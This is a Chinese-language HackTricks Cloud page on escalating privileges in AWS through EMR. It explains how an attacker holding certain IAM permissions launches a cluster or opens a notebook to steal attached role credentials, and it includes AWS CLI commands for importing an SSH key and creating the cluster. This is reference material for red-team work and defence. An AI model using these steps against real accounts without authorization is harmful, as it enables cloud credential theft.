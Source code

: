 # AWS - EMR权限提升

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## EMR

有关EMR的更多**信息**，请参阅：

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`，`elasticmapreduce:RunJobFlow`

拥有这些权限的攻击者可以**运行一个新的EMR集群并附加EC2角色**，尝试窃取其凭据。\
请注意，为了做到这一点，您需要**了解在帐户中导入的某个ssh私钥**，或者导入一个，并且能够**在主节点中打开端口22**（您可以使用`--ec2-attributes`中的`EmrManagedMasterSecurityGroup`和/或`ServiceAccessSecurityGroup`属性来实现这一点）。
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
注意在`--service-role`中指定了**EMR角色**，在`InstanceProfile`中的`--ec2-attributes`中指定了**ec2角色**。然而，这种技术只允许窃取EC2角色凭证（因为您将通过ssh连接），而不是EMR IAM角色。

**潜在影响：** 提升至指定的EC2服务角色。

### `elasticmapreduce:CreateEditor`、`iam:ListRoles`、`elasticmapreduce:ListClusters`、`iam:PassRole`、`elasticmapreduce:DescribeEditor`、`elasticmapreduce:OpenEditorInConsole`

具有这些权限，攻击者可以进入**AWS控制台**，创建一个笔记本并访问它以窃取IAM角色。

{% hint style="danger" %}
即使您在笔记本实例中附加了IAM角色，在我的测试中我注意到我能够窃取AWS托管凭证，而不是与IAM角色相关的凭证。
{% endhint %}

**潜在影响：** 提升至AWS托管角色arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

仅具有此权限，攻击者将能够访问**Jupyter Notebook并窃取与其关联的IAM角色**。\
笔记本的URL为`https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
即使您在笔记本实例中附加了IAM角色，在我的测试中我注意到我能够窃取AWS托管凭证，而不是与IAM角色相关的凭证。
{% endhint %}

**潜在影响：** 提升至AWS托管角色arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
学习并实践AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并实践GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

